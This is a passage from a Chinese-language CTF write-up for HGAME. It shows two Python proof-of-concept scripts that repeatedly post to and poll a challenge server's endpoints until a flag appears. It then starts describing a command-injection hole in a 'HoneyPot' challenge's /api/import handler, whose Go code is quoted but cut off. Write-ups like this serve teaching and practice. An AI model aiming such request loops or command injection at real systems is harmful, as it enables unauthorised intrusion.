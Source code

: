 poc2

```python
import requests
while True:
    burp0_url = "http://node1.hgame.vidar.club:30762/app/send"
    burp0_headers = {"Cache-Control": "max-age=0", "Accept-Language": "zh-CN,zh;q=0.9", "Origin": "http://node1.hgame.vidar.club:30762", "Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://node1.hgame.vidar.club:30762/app/index", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
    burp0_data = {"message": "123"}
    res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    print(res.status_code)
```

poc3

```python
import requests
while True:
    burp0_url = "http://node1.hgame.vidar.club:30762/app/read"
    burp0_headers = {"Accept-Language": "zh-CN,zh;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
    res = requests.get(burp0_url, headers=burp0_headers)
    # print(res.text)
    if "hgame" in (res.text):
        print(res.text)
        break

```

成功执行，拿到flag

![ce7c9af5b1c85c5b5c60632c51b313a](../assets/ce7c9af5b1c85c5b5c60632c51b313a.png)

### week2

week2强度有点高，就打了一道HoneyPot，复现一手

### **Level 21096 HoneyPot**

应该是非预期

可以找到这个函数，也就是/api/import，可以进行命令拼接

```Dockerfile
func ImportData(c *gin.Context) {
    var config ImportConfig
    if err := c.ShouldBindJSON(&config); err != nil {
        c.JSON(http.StatusBadRequest, gin.H{
            "success": false,
            "message": "Invalid request body: " + err.Error(),
        })
        return
    }
    if err := validateImportConfig(config); err != nil {
        c.JSON(http.StatusBadRequest, gin.H{
            "success": false,
            "message": "Invalid input: " + err.Error(),
        })
        return
```